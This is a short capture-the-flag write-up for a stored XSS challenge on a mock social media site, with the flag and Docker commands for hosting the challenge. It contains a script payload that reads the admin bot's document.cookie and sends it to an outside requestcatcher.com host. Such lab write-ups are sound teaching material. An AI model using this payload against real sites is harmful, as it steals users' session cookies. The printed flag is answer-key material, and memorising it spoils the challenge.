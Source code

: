 # Social Media Writeup
This is a very simple Cross-Site Scripting (XSS) challenge. The flag is the cookie of the admin bot that you want to exfiltrate. XSS relies on you forcing someone else to run JavaScript code in their browser. In this challenge, you can put any HTML or JavaScript into comments or posts on your social media site, generate a link for the post, and send it to the bot, who will run it. If you insert a payload such as `<script>var myImage = new Image(100, 200); myImage.src = &quot;https://https://asdfasdfasdfsdf.requestcatcher.com/flag?cookie=&quot;+document.cookie;</script>` while having https://asdfasdfasdfsdf.requestcatcher.com/ open in another tab, the bot will send the cookie in the URL to that domain, and the flag will be in the URL. 

**Flag** - `byuctf{xss_1s_a_v3ry_common_m3thod_of_attack!}`

## Hosting
The main website can be spun up by running `python3 unhackable.py` from the local directory. The admin bot uses a Docker container that makes a webserver that can be accessed port 40006. All the proper files are included in here. The command to build the docker container is (when located inside of the `admin-bot` directory):

```bash
sudo docker build -t adminbot1 .
```

The command to start the challenge is:

```bash
sudo docker run -p 40006:1337 --detach --name adminbot1 adminbot1:latest
```

The command to stop the challenge (since `CTRL+C` won't work) is:

```bash
sudo docker stop adminbot1
```